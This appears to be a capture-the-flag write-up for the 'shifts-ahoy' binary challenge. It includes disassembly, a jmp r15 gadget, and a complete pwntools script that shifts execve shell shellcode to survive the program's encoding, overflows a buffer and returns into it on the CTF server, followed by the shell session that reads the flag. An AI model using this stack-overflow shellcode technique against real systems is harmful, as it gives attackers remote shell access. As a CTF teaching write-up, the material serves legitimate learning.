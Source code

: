 There is no `jmp rsp` gadget in the binary. But I found this:

```assembly
.text:00000000004012CD            mov     rsi, rax
.text:00000000004012D0            lea     rdi, aEncryptedMessa ; "\nEncrypted Message: %s\n"
.text:00000000004012D7            mov     eax, 0
.text:00000000004012DC            call    _printf
.text:00000000004012E1            mov     r15, rsp
```

The program assigns the value of `r15` to `rsp` before returning, and there is a `jmp r15` gadget at 0x4011CD

```assembly
.text:00000000004011CD            jmp     r15
```

Everything is ok now, let's write a script:

```python
from pwn import *

p = 0
jmp_r15 = 0x004011cd

def main():
    global p
#   p = process('./shifts-ahoy')
    p = remote('jh2i.com', 50015)
    shellcode = '\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05'
    shellcode = list(map(ord, shellcode))
    for i in range(len(shellcode)):
        shellcode[i] -= 13
        if shellcode[i] < 0:
            shellcode[i] += 256
        shellcode[i] = bytes([shellcode[i]])
#   shellcode = list(map(chr, shellcode))
    shellcode = b''.join(shellcode)
    shellcode = shellcode.ljust(88, b'A') + p64(jmp_r15)
    print (hexdump(shellcode))
    p.sendlineafter('> ', '1')
    p.sendlineafter(b': ', shellcode)
    p.interactive()

if __name__ == '__main__':
    main()
```

```bash
(env3) osboxes@osboxes:~/Desktop/nctf$ python shift.py
[+] Opening connection to jh2i.com on port 50015: Done
00000000  24 b3 3b ae  c4 90 89 84  c3 7f 8a f2  3b ea ce 46  │$·;·│····│····│;··F│
00000010  47 52 8c 45  4a 47 51 a3  2e 02 f8 41  41 41 41 41  │GR·E│JGQ·│.··A│AAAA│
00000020  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
*
00000050  41 41 41 41  41 41 41 41  cd 11 40 00  00 00 00 00  │AAAA│AAAA│··@·│····│
00000060
[*] Switching to interactive mode

Encrypted Message: 1\xc0H\xbbѝ\x96\x91Ќ\x97\xffH\xf7\xdbST_\x99RWT^\xb0;\x0fNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNNAAAAAAAA@
$ cat flag.txt
flag{captain_of_the_rot13_ship}
```
